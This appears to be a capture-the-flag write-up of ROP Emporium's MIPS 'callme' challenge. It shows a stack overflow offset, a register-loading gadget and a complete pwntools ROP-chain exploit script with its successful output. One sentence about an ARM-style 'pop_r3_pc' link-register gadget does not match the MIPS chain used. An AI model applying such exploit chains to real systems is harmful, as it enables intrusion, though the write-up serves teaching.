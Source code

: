 ```yaml
---
layout: post
author: playoff-rondo
title:  "ROPemporium: CallMe MIPS"
date:   2020-10-10 18:01:37 -0500
categories: CTF-writeup
ctf-category: PWN
---
```


# callme MIPS
## Triage
![](https://i.imgur.com/4AAsy1E.png)

Chain calls to multiple imported methods with specific arguments and see how the differences between 64 & 32 bit calling conventions affect your ROP chain.
### Disassembly
main function calls vulnerable call pwnme
![](https://i.imgur.com/HWccWbN.png)

pwnme function 
![](https://i.imgur.com/FvCln4L.png)

## Eumulation
Because this binary is an MIPS archetecture, to be able to run the binary we need to emulate it somehow.

I will be using [qemu](https://www.qemu.org/), specifically qemu-mipsel

Install require libraries
`sudo apt install gcc-mipsel-linux-gnu`

Run the binary 
`qemu-mipsel -L /usr/mipsel-linux-gnu ./callme_mipsel `


## Vulnerability
In the pwnme function, 0x200 bytes are read into the user_input buff but the user_input buff is on the stack -0x28 (-40) bytes off from the return address.

If we supply 40 bytes, the last 4 bytes will overflow the return address and we gain control of the program counter.

Confirming the vulnerability:
```bash
python -c 'print "A"*36+"BBBB"' |qemu-mipsel -strace -L /usr/mipsel-linux-gnu ./callme_mipsel
```
```bash
--- SIGSEGV {si_signo=SIGSEGV, si_code=1, si_addr=0x42424242} ---
qemu: uncaught target signal 11 (Segmentation fault) - core dumped
[1]    3278807 done                              python -c 'print "A"*36+"BBBB"' | 
       3278808 segmentation fault (core dumped)  qemu-mipsel -strace -L /usr/mipsel-linux-gnu ./callme_mipsel
```

## Exploit
Description says:
`To dispose of the need for any RE I'll tell you the following:
You must call the callme_one(), callme_two() and callme_three() functions in that order, each with the arguments 0xdeadbeef, 0xcafebabe, 0xd00df00d e.g. callme_one(0xdeadbeef, 0xcafebabe, 0xd00df00d) to print the flag.`

In mipsel the way to pass function parameters through registers:
`a0,a1,a2,a3`

We need gadgets that can load the values off the stack and into the correct registers.
Using ROPgadget:
`lw_a0_a1_a2_t9 = p32(0x00400bb0)# : lw $a0, 0x10($sp) ; lw $a1, 0xc($sp) ; lw $a2, 8($sp) ; lw $t9, 4($sp) ; jalr $t9 ; nop`


We set the link register to the `pop_r3_pc` gadget to place the next function on the stack into `pc` but we also have a junk register of `r3` so I place 0 in there,

### Script
```python=
from pwn import *

context.binary = elf = ELF("./callme_mipsel")

lw_a0_a1_a2_t9 = p32(0x00400bb0)# : lw $a0, 0x10($sp) ; lw $a1, 0xc($sp) ; lw $a2, 8($sp) ; lw $t9, 4($sp) ; jalr $t9 ; nop

payload = "A"*36
payload += lw_a0_a1_a2_t9
payload += p32(0)
payload += p32(elf.sym['callme_one']) # t9
payload += p32(0xd00df00d)	# a2
payload += p32(0xcafebabe)	# a1
payload += p32(0xdeadbeef)	# a0

payload += lw_a0_a1_a2_t9
payload += p32(0)
payload += p32(elf.sym['callme_two']) # t9
payload += p32(0xd00df00d)	# a2
payload += p32(0xcafebabe)	# a1
payload += p32(0xdeadbeef)	# a0

payload += lw_a0_a1_a2_t9
payload += p32(0)
payload += p32(elf.sym['callme_three']) # t9
payload += p32(0xd00df00d)	# a2
payload += p32(0xcafebabe)	# a1
payload += p32(0xdeadbeef)	# a0

io = process("./callme_mipsel",env={"QEMU_LD_PREFIX":"/usr/mipsel-linux-gnu"})
#io =gdb.debug("./callme_mipsel",env={"QEMU_LD_PREFIX":"/usr/mipsel-linux-gnu"})
io.sendline(payload)
io.interactive()
```
### Result
```bash
[*] '/home/chris/ctfs/ropemporium/callme/mips/callme_mipsel'
    Arch:     mips-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  '.'
[+] Starting local process './callme_mipsel': pid 3281191
[*] Switching to interactive mode
callme by ROP Emporium
MIPS

Hope you read the instructions...

> Thank you!
callme_one() called correctly
callme_two() called correctly
ROPE{a_placeholder_32byte_flag!}
[*] Got EOF while reading in interactive
$  
```
